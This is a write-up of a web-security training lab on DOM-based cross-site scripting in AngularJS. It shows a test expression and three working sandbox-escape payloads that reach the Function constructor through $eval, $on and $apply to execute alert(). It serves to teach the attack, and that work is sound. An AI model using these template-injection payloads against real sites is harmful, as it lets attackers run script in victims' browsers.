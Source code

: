 # DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
# Objective
This lab contains a DOM-based cross-site scripting vulnerability in a AngularJS expression within the search functionality.\
\
AngularJS is a popular JavaScript library, which scans the contents of HTML nodes containing the ng-app attribute (also known as an AngularJS directive). When a directive is added to the HTML code, you can execute JavaScript expressions within double curly braces. This technique is useful when angle brackets are being encoded.\
\
To solve this lab, perform a cross-site scripting attack that executes an AngularJS expression and calls the alert function.

# Solution
## Analysis
Payload: `{{ 2 + 2 }}` results in JavaScript execution (addition)
|![](Images/image-31.png)|
|:--:| 
| *Equation was calculated -> Code was executed* |

## XSS
There are different possible solutions to this lab.

### Payload 1
```
{{ $eval.constructor('alert()')() }}
```
![](Images/image-32.png)

### Payload 2
```
{{ $on.constructor('alert()')() }}
```
![](Images/image-33.png)

### Payload 3
```
{{ $apply.constructor('alert()')() }}
```
![](Images/image-34.png)

`.constructor` is data property of an object. It returns a reference to the constructor function that created object instance - `Function()`. `Function()` is a function constructor. By passing to it values it is possible to create new functions.\
In context of this lab, function constructor is called with `alert()`. By adding `()` before closing double curly braces function `$eval.constructor('alert()')` is called directly.